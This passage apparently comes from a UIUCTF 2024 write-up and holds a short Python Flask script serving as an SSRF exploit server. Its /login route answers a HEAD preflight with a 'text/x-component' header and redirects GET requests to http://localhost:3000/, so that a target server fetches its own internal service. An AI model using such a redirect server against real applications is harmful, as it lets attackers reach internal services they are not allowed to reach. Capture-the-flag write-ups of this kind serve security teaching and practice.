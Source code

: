 ```python
#!/usr/bin/env python3
from flask import Flask, request, Response, redirect

app = Flask(__name__)

@app.route('/login')
def exploit():
    # CORS preflight check
    if request.method == 'HEAD':
        response = Response()
        response.headers['Content-Type'] = 'text/x-component'
        return response
    # after CORS preflight check
    elif request.method == 'GET':
        ssrfUrl = 'http://localhost:3000/'
        return redirect(ssrfUrl)

if __name__ == '__main__':
    app.run(port=80, debug=True)
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/UIUCTF-2024/images/Pasted%20image%2020240701150912.png)
